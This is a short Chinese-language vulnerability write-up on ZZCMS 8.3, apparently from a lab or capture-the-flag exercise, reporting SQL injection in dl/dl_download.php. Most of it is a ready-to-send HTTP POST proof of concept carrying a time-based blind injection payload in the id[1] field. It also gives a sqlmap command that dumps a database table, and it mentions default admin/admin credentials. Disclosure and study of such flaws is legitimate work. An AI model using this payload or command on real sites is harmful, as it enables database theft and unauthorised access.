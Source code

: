 ## 1. 漏洞介绍

站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.3中dl/dl_download.php存在sql注入

[ZZCMS2021 sqlinject(1) · GitHub](https://gist.github.com/aaaahuia/1343e3aa06b031ea621b5701cebcee3e)

## 2. 漏洞复现

poc

```http
POST /dl/dl_download.php HTTP/1.1
Host: your host
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://zzcms.com
Connection: close
Referer: http://zzcms.com/dl/dl_download.php
Cookie: UserName=test; PassWord=098f6bcd4621d373cade4e832627b4f6
Upgrade-Insecure-Requests: 1

id[0]=0&id[1]=1 AND (SELECT 5584 FROM (SELECT(SLEEP(9)))a)
```

以普通用户【后台admin/admin可查看所有用户信息】登录抓包跑sqlmap

```bash
python  sqlmap.py -r post.txt -p id[1] --batch  --hex --tamper="between.py"  -D zzcms -T flag --dump
```

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312232027606.png)
